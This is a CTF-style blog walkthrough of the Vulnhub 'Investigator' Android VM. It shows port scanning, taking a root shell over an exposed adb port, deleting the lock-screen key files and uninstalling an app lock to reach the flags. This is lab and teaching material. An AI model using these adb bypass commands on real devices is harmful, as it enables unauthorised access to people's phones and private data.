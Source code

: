 ```yaml
---
date: 2020-07-21 01:20:12
layout: post
title: "Investigator Vulnhub Walkthrough"
subtitle:
description: Investigator:1 is a boot2root VM from Vulnhub. This is an android machine and its difficulty is easy.
image: /assets/img/uploads/investigator/detective.png
optimized_image: /assets/img/uploads/investigator/detective-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: investigator, investigator 1 walkthrough, investigator writeup, investigator vulnhub walkthrough, vulnhub investigator, infosec articles, vulnhub investigator walkthrough 
---
```


Today I will be sharing a walkthrough of Investigator machine available on Vulnhub. This is an android machine and rated for absolute beginners. This includes connecting to the VM via adb and then bypassing its security to read our flag. Let's Begin!

## Enumeration

I started the enumeration by running a port scan with Nmap, checking default scripts.

```r
root@kali:~# nmap -sC -sV -oN nmap/intial 192.168.1.9

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
|_http-title: Welcome To  UnderGround Sector
MAC Address: 08:00:27:B3:57:0D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.06 seconds
```
Port 8080 was running a php webserver. Looking at it in the browser, there was some information but it was not clear. 

<center><br><br>
<img src="/assets/img/uploads/investigator/port8080.png">
</center>

I started a gobuster scan in the background but that didn't gave me any interesting directory. Then I moved to the next port 5555 for further enumeration. For connecting to this port you need to install <b>adb.</b> You can install it by using the following command:

```r
$ sudo apt install adb
```

After installing, we can connect the target machine to adb by using the <b>adb connect</b> command followed by the IP of the machine and we can also see the connected devices using <b>adb devices</b> command.

```r
root@kali:~# adb connect 192.168.1.9
connected to 192.168.1.9:5555

root@kali:~/Documents/vulnhub/investigator# adb devices
List of devices attached
192.168.1.9:5555        device
```
Once the device is connected, we can open a shell on the target machine via adb using <b> adb shell</b> command. We can then pivot to root using <b>su.</b>

```r
root@kali:~# adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)

@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ #
```

Now we can read our first flag present in the home directory.

```r
uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard
                       

You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
```

## Final Flag

Next, I tried to use the android machine manually, The machine displays a lock screen and asks us to enter a pin. I tried entering the pin 6666666666 and 259148637 but none of them worked.

<center><br><br>
<img src="/assets/img/uploads/investigator/lock-screen.png">
</center>

We can bypass this login screen using adb. For this we need to delete the login key present in the system directory.

```r
uid=0(root) gid=0(root)@x86:/data/root # rm /data/system/*.key
uid=0(root) gid=0(root)@x86:/data/root # exit
```

Now when you restart the machine, the login screen does not appear. We can now access all apps inside the phone, but most of them are still protected by a third party app lock.

<center><br><br>
<img src="/assets/img/uploads/investigator/app-lock.png">
</center>

We need to use adb again to remove this app. Use the <b>adb uninstall</b> command followed by the app name to uninstall any app. In this case, I'll be removing the app lock.

```r
root@kali:~# adb uninstall com.martianmode.applock
```

Once the app lock is uninstalled, restart the machine, Now it will not ask for any password and we can read the final flag in the Messages App.

<center><br><br>
<img src="/assets/img/uploads/investigator/flag.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> 

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/wuzx">wuzx.</a>
